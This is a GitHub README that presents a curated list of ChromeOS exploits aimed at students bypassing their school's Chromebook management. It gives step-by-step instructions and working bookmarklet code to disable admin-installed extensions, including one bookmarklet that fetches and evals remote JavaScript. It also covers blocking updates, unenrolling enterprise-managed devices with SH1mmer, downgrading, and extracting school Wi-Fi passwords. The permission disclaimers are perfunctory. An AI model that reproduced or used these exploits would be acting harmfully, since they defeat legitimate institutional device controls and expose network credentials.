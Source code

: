 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 125);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b> (Unenroll and more)</summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  
This exploit can be used to completely unenroll enterprise-managed Chromebooks.  
  
**PLEASE FOLLOW EVERY DIRECTION!** If you do not, you could brick your chromebook.
  
More info: <a href="https://sh1mmer.me/">https://sh1mmer.me/</a>  
- FAQ: <a href="https://sh1mmer.me/faq.html">https://sh1mmer.me/faq.html</a>
- Credits: <a href="https://sh1mmer.me/credits.html">https://sh1mmer.me/faq.html</a>
  
This exploit works quite like downgrading, but requires a few more steps.  
<i>Requirements</i>  
- A USB with atleast 16gbs
- A personal computer

<i>Setup</i>

1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Make sure your board is in this list: `brask, brya, clapper, coral, dedede, enguarde, glimmer, grunt, hana, hatch, jacuzzi, kukui, nami, octopus, orco, pyro, reks, sentry, stout, strongbad, tidus, ultima, volteer, zork` If it is not, then this exploit will not work.
3. On your personal computer, download the corresponding shim from the [SH1MMER file mirror](https://dl.sh1mmer.me/Beautiful%20World%20GUI%20Shims/) pick crew if you are not advanced
4. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>  
5. Open the extention, and click on the settings button in to top right hand corner, click "use local image"

![image](https://user-images.githubusercontent.com/58097612/212979292-61787616-f640-47f8-8aee-2b37baf66b58.png)

6. Select the .bin file you downloaded
7. Click the blue button
8. Wait

<i>Instlation</i>

1. Enter recovery mode on your Managed Chromebook. This is done by pressing the power button, reload key (↻), and esc key at the same time. Your screens should look like the image below:

![image](https://user-images.githubusercontent.com/58097612/212979580-afb09ba1-e851-49a1-9b72-71092c46af43.png)
![image](https://user-images.githubusercontent.com/58097612/212979638-8af8d0ed-d080-4d7d-938a-a6723cff4d5e.png)

2. Press ctrl+d, then enter
3. It will now say something about "returning to secure mode" or that "OS verification is off", this means ou are ready to boot Sh1mmer. It will look the like the images below:

![image](https://user-images.githubusercontent.com/58097612/212979781-926be545-fb6e-4441-bebe-ff89e7d4a1f1.png)
![image](https://user-images.githubusercontent.com/58097612/212979798-65f45aa3-616a-4ccf-8636-2b94cce86686.png)

4. Press the power button, reload key (↻), and esc key at the same time again.
5. Plug your shimmed USB into your Chromebook, and press the power button, reload key (↻), and esc key again.

![image](https://user-images.githubusercontent.com/58097612/212979889-019e53e9-1f39-4536-900d-d95585c65bd6.png)

6. Navigate to "Payloads", then click on "Unenroll"
7. Nagigate back to the pain page, and click "Reboot"

Enjoy your new, unenrolled chromebook!

Please use this only when you have permisson, I (3kh0) and Mercury Workshop do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
<summary><b>Wifi Password</b> (Get school wifi passwords)</summary>
You can get your school's wifi password if it is built into the enrolement!

![image](https://user-images.githubusercontent.com/58097612/212685463-cfd45697-a90f-42dd-8295-2bcdb5edcd4f.png)

*This tool should not be used for illegal activity. By using this tool, you acknowledge that you are legally allowed to extract the password(s) in question.*

1. Visit chrome://net-export
2. In "OPTIONS" set "Include raw bytes"
3. Click "Start Logging to Disk"
4. Visit chrome://policy
5. Click "Reload policies"
6. Go back to chrome://net-export and click "Stop logging"
7. Upload file [here!](https://luphoria.com/netlog-policy-password-tool)
8. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
